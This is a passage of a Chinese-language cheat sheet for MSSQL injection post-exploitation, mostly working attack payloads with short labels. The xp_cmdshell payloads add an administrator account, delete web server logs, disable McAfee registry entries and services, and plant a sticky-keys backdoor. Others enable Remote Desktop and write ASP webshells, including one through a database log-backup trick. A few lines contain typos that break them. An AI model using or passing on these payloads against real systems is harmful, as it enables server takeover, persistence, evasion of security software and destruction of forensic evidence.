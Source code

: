     4）新建用户
    ```sql
    ;exec master..xp_cmdshell 'net user test test /add'    创建用户
    ;exec master..xp_cmdshell 'net localgroup administrators test /add'    添加test到管理员组
    ```
    5）操控日志
    ```sql
    ;exec master.dbo.xp_cmdshell 'del C:\winnt\system32\logfiles\w3svc5\.......log'     删除日志
    ```
    6）Getsehll
    ```sql
    echo ^<%Execute(request("a"))%^> >d:\www\123.asp
    ;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> >c:\\www\\233.asp'; --
    ```
    7）删除注册表
    ```sql
    reg delete HKLM\SOFTWARE\McAfee /f    删除注册表
    Regedit /s d:\web\zh\hp.reg      导入注册表
    ```
    
  * 系统服务操作（关闭系统防火墙，安全软件）
    1）关闭服务
    exec master..xp_servicecontrol 'stop','服务名'      停掉某个服务，需要sa权限
    exec master..xp_servicecontrol 'start','服务名'      开启某个服务
    
  * 注册表操作（创建后门）
    1）写入shift后门
    ```sql
    exec xp_regwrite 0x484b45595f4c4f43414c5f4d414348494e45,0x534f4654574152455c4d6963726f736f66745c57696e646f7773204e545c43757272656e7456657273696f6e5c496d6167652046696c6520457865637574696f6e204f7074696f6e735c73657468632e657865,0x6465627567676572,0x5245475f535a,'c:\\windows\/system32\\taskmgr.exe'--      利用注册表将5次shift提示更换成任务管理器
    ```
    2）开启3389
    ```sql
    ;exec master..xp_cmdshell 'sc config termservice start=auto
    ;exec master..xp_cmdshell 'net start termservice'
    exec master..xp cmdshell 'reg add "HKEY LOCAL 'MACHINE\SYSTEM CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x0 /f'
    ```
    
  
* ** dbowner权限利用**
  * 遍历目录
    1）搜索web目录
    ```sql
    ;create table temp(dir nvarchar(255) ,depth varchar(255),files varchar(255),ID int NOT NULL IDENTITY(1,1));--
    ;insert into temp(dir,depth,files)exec master.dbo.xp_dirtree 'c:',1,1--
    and(select dir from temp where id=1)>0      由于不能一次性获取所有web目录，所以要改变id值
    ```
  * Getshell
    1）找到web目录后，可以写入一句话木马
    ```sql
    ;alter database ssdown5 set RECOVERY FULL
    ;create table test(str image)--
    ;backup log ssdown5 to disk='c:\test' with init--
    ;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
    ;backup log ssdown5 to disk='c:\inetpub\wwwroot\x.asp'-- 
    ;alter database ssdown5 set RECOVERY simple
    ```
